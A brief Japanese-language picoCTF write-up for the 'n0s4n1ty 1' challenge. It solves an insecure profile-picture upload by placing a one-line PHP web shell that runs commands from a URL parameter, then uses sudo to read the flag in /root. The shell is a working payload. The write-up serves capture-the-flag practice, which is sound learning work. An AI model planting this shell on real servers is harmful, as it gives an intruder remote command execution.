

---
tags:
  - Web
  - File Upload
  - picoCTF
---

# n0s4n1ty 1

## 問題
リンク: https://learn.cylabacademy.org/library/482?page=1
問題名: n0s4n1ty 1
説明:
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

## 解答までの道筋
ページソースを確認すると、ファイルタイプをチェックしていないことがわかる。
webshellを置いてみる。
```php
# exploit.php
<?php echo system($_GET['cmd']); ?>
```
uploads/exploit.phpに置かれているこがわかった。
/root以下を見ようとしてもなにもひょうじされなかった
sudoつけたらいけた。

catしておわり


## 参考

